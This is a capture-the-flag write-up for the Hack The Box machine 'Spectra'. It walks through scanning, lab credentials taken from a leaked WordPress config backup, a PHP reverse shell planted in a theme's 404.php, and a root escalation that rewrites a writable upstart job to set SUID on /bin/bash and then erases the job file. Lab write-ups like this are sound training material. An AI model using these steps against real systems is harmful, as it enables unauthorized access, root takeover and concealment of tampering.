








<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

__IP-ADDR:__ 10.10.10.229 spectra.htb

__nmap scan:__
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
```

* webserver nginx 1.17.4 running 2 wordpress in diffrent directories on the same host.
```bash
http://spectra.htb/main/
http://spectra.htb/testing/
```



Running `wpscan` on `/main` wordpress found -
* WordPress version 5.4.2
* __User:__ administrator

`/testing/` wordpress gives "Error establishing a database connection" which preventing to run wpcan.

But it allows file indexing at `/testing` and from there found `wp-config.php`



Got __dbcreds:__ `devtest:devteam01` from `/wp-config.php.save`

Try connecting to mysql server return error.
```bash
❯ mysql -h 10.10.10.223 -u devteam -pdevteam01
ERROR 2002 (HY000): Can't connect to MySQL server on '10.10.10.223' (115)
```

but Password worked on `/main` wordpress login with username __`administrator`__.

# Foothold

## wpadmin reverse shell

Edit them and upload php reverse shell in the `404.php` file <!--administrator:devteam01-->



and go to same theme `404.php` file to execute reverse shell
```bash
http://spectra.htb/main/wp-content/themes/twentytwenty/404.php
```



# Privesc

found more dbcreds from `/main` wordpress config file
```bash
nginx@spectra /usr/local/share/nginx/html/main $ cat wp-config.php | grep -i 'DB_USER\|DB_PASSWORD'
define( 'DB_USER', 'dev' );
define( 'DB_PASSWORD', 'development01' );
```

Found a conf file `autologin.conf.orig` in `/opt` directory which reads password from multiple folders. From `/etc/autologin` get new password which worked for user "katie" in ssh login.
<!--katie:SummerHereWeCome!!-->



User "katie" have sudo rights to run `/sbin/initctl` as any user on the box with NOPASSWD and SETENV enable.

```bash
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

## `initctl` with sudo

* __`initctl`__ [man page](https://linux.die.net/man/8/initctl), initctl allows a system administrator to communicate and interact with the Upstart init(8) daemon.
* __Upstart:__ software is an event-based replacement for the traditional init daemon—the method by which several Unix-like computer operating systems perform tasks when the computer is started.
  * [upstart doc](http://upstart.ubuntu.com/cookbook/)
* __upstart scripts:__ An Upstart script is a combination of states and events. Upstart scripts are located in `/etc/init/` directory with a `.conf` extension. The scripts are called "System Jobs" and run using sudo privileges. Just like system jobs we also have "User Jobs" that are located at `$HOME/.init/` directory. (Note: Only Ubuntu versions above 11.10 support user jobs). After internal upstart initialization, it emits an event called ‘startup’ which triggers rest of system and user jobs. 
  * writing upstart jobs [official doc](http://upstart.ubuntu.com/getting-started.html), [blog](https://blog.joshsoftware.com/2012/02/14/upstart-scripts-in-ubuntu/)


User katie is in "developers" group
```bash
katie@spectra /etc/init $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
```

and there are some job scripts in `/etc/init` folder which writable by "developers" group users.



__stop "test" job__
```bash
#to check if job is running
sudo -u root /sbin/initctl list

sudo -u root /sbin/initctl stop test
```

__Creating upstart job script__
```bash
cat > /etc/init/test.conf << EOF
description "initctl privesc"

start on filesystem or runlevel [2345]
stop on shutdown

script
    chmod +s /bin/bash
end script

post-stop script
    # clean up
    echo '' > /etc/init/test.conf
end script
EOF
```

__restart job__
```bash
sudo -u root /sbin/initctl start test
```



